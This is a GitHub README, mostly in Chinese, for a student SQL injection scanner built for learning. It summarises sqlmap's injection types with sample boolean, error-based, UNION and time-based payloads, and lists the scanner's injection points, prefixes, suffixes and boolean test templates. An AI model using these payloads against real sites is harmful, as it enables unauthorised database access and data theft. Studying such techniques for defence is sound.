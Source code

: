 ## Web Vulnerability Scanner:SQL
- 组员：郑文艺，吴欣玙，吕萌
### 目的：熟悉SQL漏洞等常见Web漏洞原理，重点不在效率和使用，如果正八经儿检测，sqlmapapi甚至是各种工具就方便快捷
## 实现功能
1. 针对SQL注入漏洞、SQL盲注
2. 通过匹配报错出来的信息，可以正则判断出所用的数据库

## SQL注入总结（根据sqlmap）
## 注入方式
## 1. B: Boolean-based blind SQL injection（布尔型注入）<br>
### `Title: AND boolean-based blind - WHERE or HAVING clause`<br>
### `Payload: user=user1' AND 4676=4676 AND 'ZzOn'='ZzOn`
## 2. E: Error-based SQL injection（报错型注入）<br>
###  ` Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)`<br>
###  `Payload: user=user1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b786b71,(SELECT (ELT(7994=7994,1))),0x717a787871,0x78))s), 8446744073709551610, 8446744073709551610))) AND 'XSuv'='XSuv`
## 3. U: UNION query SQL injection（可联合查询注入）<br>
###  `Title: Generic UNION query (NULL) - 2 columns`<br>
###  `Payload: user=user1' UNION ALL SELECT CONCAT(0x716b786b71,0x6a6a6668724d514d5448686874774f486d634550735659727866554e65554e4e4f55504146706471,0x717a787871),NULL-- QvWZ`
## 4. S: Stacked queries SQL injection（可多语句查询注入）
## 5. T: Time-based blind SQL injection（基于时间延迟注入）<br>
###  `Title: MySQL >= 5.0.12 AND time-based blind`<br>
###  `Payload: user=user1' AND SLEEP(5) AND 'EJXX'='EJXX`
## 6. Q: inline_query(内联查询)


    
## SQL漏洞扫描代码实现
## ![avatar](https://github.com/GPSWiFi/SQL-injection/blob/master/1.png?raw=true)
## ![avatar](https://github.com/GPSWiFi/SQL-injection/blob/master/2.png?raw=true)
## 1. 判断注入位置：
  - 判断GET,POST方法:<br>GET, POST = "GET", "POST"                           
  - HTTP报文的头部字段——>设置Cookie、User-Agent、Referer:<br> COOKIE, UA, REFERER  = "Cookie", "User-Agent", "Referer"  
## 2. 前缀PREFIXES:
### PREFIXES = (" ", ") ", "' ", "') ", "\"")  
## 3. 后缀SUFFIXES:
### SUFFIXES = ("", "-- -", "#")     
## 4. 参数 :
### BOOLEAN_TESTS = ("AND %d=%d", "OR NOT (%d=%d)")  
